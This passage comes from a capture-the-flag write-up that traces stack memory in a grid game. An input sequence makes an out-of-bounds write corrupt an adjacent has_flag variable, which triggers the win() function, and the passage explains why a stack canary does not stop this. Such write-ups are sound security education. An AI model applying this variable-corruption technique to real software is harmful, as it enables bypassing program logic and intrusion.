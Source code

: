 **After 'l' + 'A':**
```
Global player_tile variable = 0x41
(No change to stack yet)
```

**After 'wwww':**
```
ebp-0xaac: [00 00 00 00]  player.row = 0
ebp-0xaa8: [00 00 00 04]  player.col = 4
ebp-0xaa4: [00]            player.has_flag = 0
```

**After 'aaaaaaaa' (CRITICAL MOMENT):**
```
ebp-0xaac: [00 00 00 00]  player.row = 0
ebp-0xaa8: [FF FF FF FC]  player.col = -4 (0xFFFFFFFC in 2's complement)
ebp-0xaa4: [41]            player.has_flag = 'A' ← CORRUPTED!
```

**After reaching (29, 89):**
```
ebp-0xaac: [00 00 00 1D]  player.row = 29
ebp-0xaa8: [00 00 00 59]  player.col = 89
ebp-0xaa4: [41]            player.has_flag = 'A' ← Still set!
```

**Win condition check:**
```c
if (*(int *)(ebp-0xaac) == 0x1d &&    // TRUE: row == 29
    *(int *)(ebp-0xaa8) == 0x59) {    // TRUE: col == 89
    puts("You win!");
    if (*(char *)(ebp-0xaa4) != 0) {  // TRUE: has_flag == 'A'
        win();                         // FLAG PRINTED!
    }
}
```

### Why Stack Canary Doesn't Help

Stack canaries protect against **buffer overflows** that overwrite the return address. 

**Our exploit:**
- Does NOT overflow any buffer
- Does NOT touch the stack canary
- Does NOT modify return address
- Only corrupts an adjacent variable through calculated out-of-bounds write

The canary is placed between local variables and the saved return address:

```
[local variables]   ← We corrupt here
[stack canary]      ← Untouched
[saved ebp]
[return address]
```
